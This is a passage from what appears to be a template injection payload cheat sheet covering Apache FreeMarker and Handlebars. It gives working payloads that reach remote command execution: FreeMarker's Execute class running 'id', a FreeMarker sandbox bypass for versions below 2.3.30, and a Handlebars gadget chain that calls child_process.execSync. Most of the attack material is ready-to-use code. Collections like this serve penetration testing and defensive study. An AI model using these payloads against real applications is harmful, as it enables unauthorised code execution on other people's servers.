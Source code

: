 
## Freemarker

[Official website](https://freemarker.apache.org/)
> Apache FreeMarker™ is a template engine: a Java library to generate text output (HTML web pages, e-mails, configuration files, source code, etc.) based on templates and changing data. 

You can try your payloads at [https://try.freemarker.apache.org](https://try.freemarker.apache.org)

### Freemarker - Basic injection

The template can be `${3*3}` or the legacy `#{3*3}`.

### Freemarker - Code execution

```js
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}
```

### Freemarker - Sandbox bypass

:warning: only works on Freemarker versions below 2.3.30

```js
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

---

## Handlebars

[Official website](https://handlebarsjs.com/)
> Handlebars compiles templates into JavaScript functions.

### Handlebars - Command Execution

```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

---